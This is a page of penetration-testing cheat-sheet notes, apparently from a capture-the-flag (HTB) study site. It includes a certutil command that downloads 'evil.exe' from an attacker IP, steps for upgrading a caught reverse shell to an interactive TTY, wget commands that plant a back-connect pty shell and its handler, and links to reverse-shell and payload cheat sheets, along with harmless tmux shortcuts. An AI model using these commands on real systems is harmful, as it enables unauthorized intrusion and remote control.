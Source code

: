 ```yaml
---
layout: default
title: Tips and Tricks
---
```


One Liners
==========
Dowloading file via certutil
{% highlight bash%}
cmd.exe /C certutil  -split -urlcache -f http://10.10.14.1/evil.exe c:\Users\Admin\Desktop\notevil.exe
{% endhighlight %}
Nmap scan ran through searchsploit
{% highlight bash%}
nmap -p- -sV -oX new.xml 10.10.14.1; searchsploit --nmap new.xml
{% endhighlight %}
List al started services
{% highlight bash%}
cmd.exe /c wmic service where started=true get name, startname
{% endhighlight %}

Tmux shortcut
=============
{% highlight bash%}
Ctrl + b c :Create window</bloc>
Ctrl + b , :Rename current window
Ctrl + b % :Split pane vertically
Ctrl + b " :Split pane horizontally
Ctrl + b z :Toggle pane zoom
Ctrl + b ! :Convert pane into a window
Ctrl + b x :Close current pane
Ctrl + b [ :Enter copy mode
q : Quit mode
/ :Search forward
? :Search backward
n :Next keyword occurance
N :Previous keyword occurance
Spacebar   :Start selection
Esc        :Clear selection
Enter      :Copy selection
Ctrl + b ] : Paste contents of buffer_0
{% endhighlight %}

[Back to the top](##header)

Upgrading Simple Shells to Fully Interactive TTYs
=================================================
{% highlight python%}
python -c 'import pty; pty.spawn("/bin/bash")'
or
python3 -c 'import pty; pty.spawn("/bin/bash")'
{% endhighlight %}

Then press CTRL+Z to return to your local shell

{% highlight bash%}
stty raw -echo
stty -a
{% endhighlight %}

Note the number of rows and columns before pressing fg to return to the box

{% highlight bash%}
export SHELL=bash
export TERM=xterm256-color
stty rows number_of_row columns number_of_columns
{% endhighlight %}

Another option is to directly push a python pty shell to the targeted box:
{% highlight bash%}
wget https://raw.githubusercontent.com/Mushi-mushi/python-pty-shells/master/sctp_pty_backconnect.py -o /dev/shm/.shell.py
{% endhighlight %}
configure the shell with the correct IP and port then get the shell handler
{% highlight bash%}
wget https://raw.githubusercontent.com/Mushi-mushi/python-pty-shells/master/sctp_pty_shell_handler.py -o /root/HTB/handler.py
python handler.py -b YourIP:Youropenedport
{% endhighlight %}
<sup>Shell scripts from [infodox][link11]</sup>

Enjoy!

[Back to the top](#header)

Finding non standard binaries 
==============================
{% highlight bash%}
for i in $(ls /sbin/*); do echo $i; done
for i in $(ls /sbin/*); do dpkg --search $i; done
for i in $(ls /sbin/*); do dpkg --search $i 1>/dev/null; done
{% endhighlight %}

To investigate on different location in the $PATH

[Back to the top](#header)

Interesting Links:
==================
- [jwt.io][link1]: Decode and edit jwt token
- [cyberchef][link3]: Decode and encode in multiple format
- [stackedit.io][link4]: Markdown editor
- [devhints.io][link5]: Jekyll dev ops tricks
- [jekyllrb.com][link6]: Jekyll tuto
- [PayloadsAllTheThings][link7]: Payload for everything
- [Netsec][link8]: Idea for future tutorials
- [Pentestmonkey][link9]: Reverse Shell Cheat Sheet
- [W3schools][link10]: Testing new layout

[Back to the top](##header)

[link1]:https://jwt.io/  
[link2]:http://jekyllrb.com
[link3]:https://gchq.github.io/CyberChef/
[link4]:https://stackedit.io/app#
[link5]:https://devhints.io/jekyll 
[link6]:https://jekyllrb.com/
[link7]:https://github.com/swisskyrepo/PayloadsAllTheThings
[link8]:https://netsec.ws/?p=376
[link9]:http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
[link10]:https://www.w3schools.com/howto/tryit.asp?filename=tryhow_css_subnav
[link11]:https://github.com/infodox/python-pty-shells

